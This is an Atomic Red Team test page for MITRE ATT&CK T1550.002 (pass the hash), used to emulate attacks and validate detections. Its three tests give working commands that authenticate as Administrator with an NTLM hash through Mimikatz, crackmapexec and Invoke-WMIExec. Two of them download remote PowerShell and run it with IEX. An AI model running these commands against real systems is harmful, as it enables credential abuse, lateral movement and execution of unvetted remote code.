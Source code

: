 # T1550.002 - Use Alternate Authentication Material: Pass the Hash

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1550/002)

<blockquote>Adversaries may “pass the hash” using stolen password hashes to move laterally within an environment, bypassing normal system access controls. Pass the hash (PtH) is a method of authenticating as a user without having access to the user's cleartext password. This method bypasses standard authentication steps that require a cleartext password, moving directly into the portion of the authentication that uses the password hash.

When performing PtH, valid password hashes for the account being used are captured using a [Credential Access](https://attack.mitre.org/tactics/TA0006) technique. Captured hashes are used with PtH to authenticate as that user. Once authenticated, PtH may be used to perform actions on local or remote systems.

Adversaries may also use stolen password hashes to "overpass the hash." Similar to PtH, this involves using a password hash to authenticate as a user but also uses the password hash to create a valid Kerberos ticket. This ticket can then be used to perform [Pass the Ticket](https://attack.mitre.org/techniques/T1550/003) attacks.(Citation: Stealthbits Overpass-the-Hash)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Mimikatz Pass the Hash](#atomic-test-1---mimikatz-pass-the-hash)

- [Atomic Test #2 - crackmapexec Pass the Hash](#atomic-test-2---crackmapexec-pass-the-hash)

- [Atomic Test #3 - Invoke-WMIExec Pass the Hash](#atomic-test-3---invoke-wmiexec-pass-the-hash)

<br/>

## Atomic Test #1 - Mimikatz Pass the Hash

Note: must dump hashes first
[Reference](https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa#pth)

**Supported Platforms:** Windows

**auto_generated_guid:** ec23cef9-27d9-46e4-a68d-6f75f7b86908

#### Inputs:

| Name          | Description                 | Type   | Default Value                               |
| ------------- | --------------------------- | ------ | ------------------------------------------- |
| user_name     | username                    | string | Administrator                               |
| ntlm          | ntlm hash                   | string | cc36cf7a8514893efccd3324464tkg1a            |
| domain        | domain                      | string | %userdnsdomain%                             |
| mimikatz_path | mimikatz windows executable | path   | %tmp%&#92;mimikatz&#92;x64&#92;mimikatz.exe |

#### Attack Commands: Run with `command_prompt`!

```cmd
#{mimikatz_path} "sekurlsa::pth /user:#{user_name} /domain:#{domain} /ntlm:#{ntlm}"
```

#### Dependencies: Run with `powershell`!

##### Description: Mimikatz executor must exist on disk and at specified location (#{mimikatz_path})

##### Check Prereq Commands:

```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
if (Test-Path $mimikatz_path) {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-FetchFromZip.ps1" -UseBasicParsing)
$releases = "https://api.github.com/repos/gentilkiwi/mimikatz/releases"
$zipUrl = (Invoke-WebRequest $releases | ConvertFrom-Json)[0].assets.browser_download_url | where-object { $_.endswith(".zip") }
$mimikatz_exe = cmd /c echo #{mimikatz_path}
$basePath = Split-Path $mimikatz_exe | Split-Path
Invoke-FetchFromZip $zipUrl "x64/mimikatz.exe" $basePath
```

<br/>
<br/>

## Atomic Test #2 - crackmapexec Pass the Hash

command execute with crackmapexec

**Supported Platforms:** Windows

**auto_generated_guid:** eb05b028-16c8-4ad8-adea-6f5b219da9a9

#### Inputs:

| Name             | Description                     | Type   | Default Value                               |
| ---------------- | ------------------------------- | ------ | ------------------------------------------- |
| user_name        | username                        | string | Administrator                               |
| crackmapexec_exe | crackmapexec windows executable | path   | C:&#92;CrackMapExecWin&#92;crackmapexec.exe |
| command          | command to execute              | string | whoami                                      |
| ntlm             | command                         | string | cc36cf7a8514893efccd3324464tkg1a            |
| domain           | domain                          | string | %userdnsdomain%                             |

#### Attack Commands: Run with `command_prompt`!

```cmd
#{crackmapexec_exe} #{domain} -u #{user_name} -H #{ntlm} -x #{command}
```

#### Dependencies: Run with `powershell`!

##### Description: CrackMapExec executor must exist on disk at specified location (#{crackmapexec_exe})

##### Check Prereq Commands:

```powershell
if(Test-Path #{crackmapexec_exe}) {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
Write-Host Automated installer not implemented yet, please install crackmapexec manually at this location: #{crackmapexec_exe}
```

<br/>
<br/>

## Atomic Test #3 - Invoke-WMIExec Pass the Hash

Use Invoke-WMIExec to Pass the Hash
Note: must dump hashes first
[Reference](https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa#pth)

**Supported Platforms:** Windows

**auto_generated_guid:** f8757545-b00a-4e4e-8cfb-8cfb961ee713

#### Inputs:

| Name      | Description                     | Type   | Default Value                    |
| --------- | ------------------------------- | ------ | -------------------------------- |
| ntlm      | ntlm hash                       | string | cc36cf7a8514893efccd3324464tkg1a |
| user_name | username                        | string | Administrator                    |
| command   | Command to run on target system | string | hostname                         |
| target    | System to run command on        | string | $env:COMPUTERNAME                |

#### Attack Commands: Run with `powershell`!

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/Kevin-Robertson/Invoke-TheHash/01ee90f934313acc7d09560902443c18694ed0eb/Invoke-WMIExec.ps1' -UseBasicParsing);Invoke-WMIExec -Target #{target} -Username #{user_name} -Hash #{ntlm} -Command #{command}
```

<br/>
